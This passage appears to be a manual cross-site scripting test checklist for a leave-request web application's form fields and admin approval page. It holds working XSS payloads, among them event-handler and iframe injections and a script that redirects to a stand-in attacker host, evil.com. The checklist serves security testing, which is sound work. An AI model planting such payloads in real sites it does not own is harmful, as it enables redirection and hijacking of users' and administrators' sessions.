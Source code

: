 #### Test 2.4: Event Handler XSS
1. **Clear the reason field**
2. **Enter**:
   ```html
   " onmouseover="alert('XSS Test 4')"
   ```
3. **Submit form**
4. **If text appears, hover over it**

### Step 3: Test Other Leave Types

#### Test Permission Request
1. **Select** "Permission"
2. **Pick date and time slot**
3. **In reason field, try**:
   ```html
   <script>document.location='http://evil.com'</script>
   ```
4. **Submit and monitor Network tab for unexpected requests**

#### Test Other Leave Request
1. **Select** "Other Leave"
2. **Pick from/to dates**
3. **In reason field, try**:
   ```html
   <iframe src=javascript:alert('XSS')></iframe>
   ```
4. **Submit form**

## Phase 2: Advanced Manual Testing

### Step 4: Test Multiple Input Fields

Try XSS payloads in ALL input fields:

#### Employee Name Field (if editable)
```html
<script>alert('Name XSS')</script>
```

#### Date Fields
```html
<script>alert('Date XSS')</script>
```

### Step 5: Admin Panel Testing

1. **Login as Admin** (if you have admin credentials)
2. **Go to Leave Approval page** (`/Admin/Leave_approval`)
3. **Look for your submitted requests**
4. **Check if XSS executes when admin views the data**

If you don't have admin access, ask someone with admin rights to check the approval page after you submit XSS payloads.
